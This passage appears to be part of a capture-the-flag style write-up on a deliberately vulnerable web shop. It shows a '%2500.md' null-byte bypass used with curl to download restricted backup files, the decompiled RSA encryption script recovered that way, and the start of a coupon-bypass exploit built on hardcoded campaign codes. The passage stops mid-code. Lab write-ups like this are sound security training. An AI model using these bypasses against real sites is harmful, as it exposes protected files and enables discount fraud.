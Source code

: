 
Otherwise, thanks to the `%2500.md` bypass we could retrieve a lot of important files such as `encrypted.pyc` which could give us intel about the way `annoucement_encrypted.md` is encrypted.  
Indeed thanks to website like https://www.toolnb.com/tools-lang-en/pyc.html we could rebuilt the source code of the `encrypted.pyc` which give us the following result: 
```python
# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Aug  7 2019, 00:51:29) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-39)]
# Embedded file name: encrypt.py
# Compiled at: 2020-05-21 04:46:26
confidential_document = open('announcement.md', 'r')
N = 145906768007583323230186939349070635292401872375357164399581871019873438799005358938369571402670149802121818086292467422828157022922076746906543401224889672472407926969987100581290103199317858753663710862357656510507883714297115637342788911463535102712032765166518411726859837988672111837205085526346618740053L
e = 65537
encrypted_document = open('announcement_encrypted.md', 'w')
for char in confidential_document.read():
    encrypted_document.write(str(pow(ord(char), e, N)) + '\n')

encrypted_document.close()
```

One more file that is intressting is `coupons_2013.md.bak` 
```bash
curl localhost:3000/ftp/coupons_2013.md.bak%2500.md
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

This file bring us to the following exploit:


### Exploitation 3 - Coupon bypass

By looking at the source code of the browser inside the `index.js` file, we could try to look if anything is hardcoded by looking at terms wich we could found on the website.
If we look at coupons we could found chunk of code with discout keywords. And by looking at the discount keyword we could found a intresting section :
```js
(this.campaigns = {
      WMNSDY2019: {
        validOn: 15519996e5,
        discount: 75,
      },
      WMNSDY2020: {
        validOn: 1583622e6,
        discount: 60,
      },
      WMNSDY2021: {
        validOn: 1615158e6,
        discount: 60,
      },
      WMNSDY2022: {
        validOn: 1646694e6,
```